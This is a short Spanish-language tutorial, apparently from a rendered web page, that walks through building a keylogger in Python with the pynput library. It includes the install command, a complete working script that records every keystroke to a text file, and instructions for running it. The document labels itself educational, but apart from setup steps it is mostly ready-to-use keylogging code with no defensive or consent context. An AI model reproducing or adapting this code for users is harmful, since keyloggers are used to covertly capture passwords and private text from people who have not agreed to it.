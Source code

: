 2. Instalar la librería `pynput`:

```bash
pip install pynput
```

¡Y ya estás listo para crear un keylogger básico!

---

#### 🧪 Ejemplo completo de keylogger en Python (educativo)

Este keylogger:

- Captura las teclas que presionas
- Las guarda en un archivo `.txt`

---

#### 🧾 Código paso a paso

```python
from pynput import keyboard

# Archivo donde se guardarán las teclas
archivo = "registro_teclas.txt"

def presionar_tecla(tecla):
    try:
        with open(archivo, "a") as f:
            f.write(f"{tecla.char}")
    except AttributeError:
        # Si la tecla es especial (como Enter, Shift, etc.)
        with open(archivo, "a") as f:
            f.write(f" [{tecla}] ")

# Iniciar escucha del teclado
with keyboard.Listener(on_press=presionar_tecla) as listener:
    listener.join()
```

---

#### 📌 Cómo ejecutarlo

1. Guarda el código como `keylogger.py`
2. Ejecuta el script:

```bash
python keylogger.py
```

3. Abre un bloc de notas o cualquier ventana y comienza a escribir
4. Verifica el archivo `registro_teclas.txt`

---
